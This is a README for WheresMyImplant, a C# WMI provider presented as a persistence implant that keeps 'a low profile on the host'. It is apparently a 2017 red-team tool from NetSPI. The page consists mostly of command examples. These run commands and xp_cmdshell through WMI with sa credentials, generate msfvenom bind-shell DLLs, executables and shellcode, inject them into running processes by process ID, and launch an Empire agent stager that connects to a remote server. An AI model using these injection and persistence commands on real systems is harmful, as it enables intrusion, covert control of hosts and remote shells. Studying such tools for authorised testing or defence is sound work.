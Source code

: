 ### WheresMyImplant: A C# WMI Provider for long term persistance

This WMI provider includes functions to execute commands, payloads, and Empire Agent to maintain a low profile on the host.

This is the sister project to PowerProvider.

### Methods

* #### RunCMD
  * **Parameters:** Command, Parameters
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="ipconfig"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;parameter="/all" <br/>
  };
  
* #### RunPowerShell
  * **Parameters:** Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami" <br/>
  };
  
* #### RunXpCmdShell
  * **Parameters:** Server, Database, UserName, Password, Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunXpCmdShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;database=""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;server="sqlserver" <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username="sa"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password="password" <br/>
  };
  
* #### InjectShellCode
  * **Parameter:** ShellCodeString, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCode -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellCodeString=$payload; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432 <br/>
  };
  
* #### InjectShellCodeWMFIFSB4
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeWMFIFSB4 -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass="WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName="CalcShellCode"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432; <br/>
  };
  
* #### InjectDll
  * **Parameters:** Library, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDll -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;library = "\\host\share\bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectDllWMIFS
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllWMIFS -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass = "WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectPeFile
  * **Parameters:** FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPe -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeString
  * **Parameters:** PeString, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeString -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeWMIFS
  * **Parameters:** WmiClass, FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeFromFileRem -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; ProcessId=5648; <br/>
  };
  
* #### Empire
  * **Parameters:** Server, StagingKey, Language
  * **Example:** <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "PowerShell"; <br/>
  }; 
  <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "dotnet"; <br/>
  };


### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
